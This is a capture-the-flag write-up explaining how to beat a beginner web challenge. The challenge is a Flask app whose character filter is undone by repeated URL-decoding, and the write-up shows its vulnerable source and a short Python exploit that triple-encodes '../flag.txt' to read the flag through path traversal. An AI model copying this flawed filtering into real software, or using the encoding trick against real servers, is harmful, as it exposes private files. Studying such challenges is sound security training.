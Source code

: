 # Beginner - secret_of_j4ck4l
## Writeup Author: kebabulon

---

### Task

I left a message for you. You will love it definitely

http://34.132.132.69:8003/

**public.zip**:

```
-- app
   |-- app.py
   |-- docker-compose.yaml
   |-- Dockerfile
   |-- flag.txt
   |-- message 
       |-- message
```

---

### Solution

Let's check out ```app.py```:

```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)
```

We have to do path traversal, but we can't use plain text ```.``` or ```/``` because of the function ```ignore_it()```.  
Instead, we are going to URL encode the dot and the slash.

The URL is unquoted 3 times in the function ```useless()```, so all we have to do is quote our path 3 times:

```py
import urllib.parse
def url_encode(file_param):
    return urllib.parse.quote(file_param, safe='')

dot = url_encode(url_encode(url_encode(".")))
slash = url_encode(url_encode(url_encode("/")))

path = dot + dot + slash + 'flag' + dot + 'txt'

import requests
r = requests.get('http://34.132.132.69:8003/read_secret_message?file='+path)

print(r.text)
```

And we get the flag.

---

### Flag

```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```

